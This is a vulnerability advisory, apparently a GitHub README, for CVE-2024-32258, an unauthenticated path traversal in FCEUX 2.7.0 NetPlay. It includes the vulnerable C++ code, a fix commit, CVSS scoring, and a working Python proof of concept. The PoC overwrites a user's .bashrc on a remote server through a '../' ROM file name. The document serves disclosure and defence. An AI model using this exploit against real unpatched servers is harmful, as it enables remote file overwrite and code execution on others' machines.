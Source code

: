 ## Overview

- **CVE ID**: [CVE-2024-32258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32258)
- **Type**: Path Traversal 
- **Vendor**: [FCEUX](https://fceux.com/)
- **Products**: FCEUX_NetPlay
- **Version**: 2.7.0
- **Fix**: [48b48e7c13be1b949074f42660a33c7ef57135e1](https://github.com/TASEmulators/fceux/pull/728/commits/48b48e7c13be1b949074f42660a33c7ef57135e1)

## Description

FCEUX is a NES Emulator that can take us back to our childhood. It provides multiple interesting features, such as two players being able to play games online. 

The server and client can pass ROMs to each other, but the server does not filter out special characters in the ROM names sent by the client. This path traversal vulnerability can cause any file on the server to be overwritten. Even more serious is that the remote loading of ROMs does not require authentication, even if the server settings require a password to log in.

It was introduced during commit [798c5a1d9c73b899cdbe3d613c0022588281979f](https://github.com/TASEmulators/fceux/commit/798c5a1d9c73b899cdbe3d613c0022588281979f) - *For NetPlay, added ability for client to request a ROM to load.*

```c++
if (acceptRomLoadReq)
{
    FILE *fp;
    std::string filepath = QDir::tempPath().toLocal8Bit().constData(); 
    const char *romData = &static_cast<const char*>(msgBuf)[ sizeof(netPlayLoadRomReq) ];

    filepath.append( "/" );
    filepath.append( msg->fileName );

    printf("Load ROM Request Received: %s\n", filepath.c_str());

    //printf("Dumping Temp Rom to: %s\n", filepath.c_str());
    fp = ::fopen( filepath.c_str(), "w");

    if (fp == nullptr)
    {
        return;
    }
    ::fwrite( romData, 1, msgSize, fp );
    ::fclose(fp);

    FCEU_WRAPPER_LOCK();
    LoadGame( filepath.c_str(), true, true );
    FCEUI_SetEmulationPaused(EMULATIONPAUSED_PAUSED);
    FCEU_WRAPPER_UNLOCK();

    resyncAllClients();
}
```

Both `msf->fileName` and `fp` are specified by the attacker.

## PoC

You can obtain fceux through source code compilation, or you can directly use our compiled binary. [fceux.zip](https://github.com/liyansong2018/CVE-2024-32258/files/15028161/fceux.zip)


PoC

```python
import socket
import binascii

client = socket.socket(family=socket.AF_INET, type=socket.SOCK_STREAM)
client.connect(('192.168.17.131', 4046))

header = "aa55aa55aa55aa550000000a00000204000000f0"
file_name = '../home/tom/.bashrc'
padding1 = '\0' * (256 - len(file_name))
nes_content = "gnome-calculator\n"
padding2 = '\0' * 0x100

client.send(binascii.unhexlify(header) + (file_name + padding1 + nes_content + padding2).encode())
res = client.recv(1024)
print(res)

packet = "0000000000000000000000000800450000641108400040062b8a7f0000017f000001cd340fcee511e70e3cfc427080180200fe5800000101080a94ee338594ee3382aa55aa55aa55aa5500000028000000300000000100000001000000000000000000000000000000000000000000000000"
client.send(binascii.unhexlify(packet))
res = client.recv(1024)
print(res)
```
Have fun! :smile:

https://github.com/liyansong2018/CVE-2024-32258/assets/25031216/2c237254-3ff8-4690-b0ea-d413f6e8c48d


## Severity

**High** 8.8 CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H

| CVSS3.1             | Score     | Detail                                            |
| ------------------- | --------- | ------------------------------------------------- |
| ATTACK VECTOR       | Network   | launch attack through the network                 |
| ATTACK COMPLEXITY   | Low       | just send two messages                            |
| PRIVILEGES REQUIRED | None      | no permissions are required to send attack packet |
| USER INTERACTION    | Require   | click the confirm button to load the ROM.         |
| SCOPE               | Unchanged | na                                                |
| CONFIDENTIALITY     | High      | arbitrary file overwrite                          |
| INTEGRITY           | High      | arbitrary file overwrite                          |
| AVAILABILITY        | High      | arbitrary file overwrite                          |

## Author
Yansong Li and Yijie Xun (Northwestern Polytechnical University)
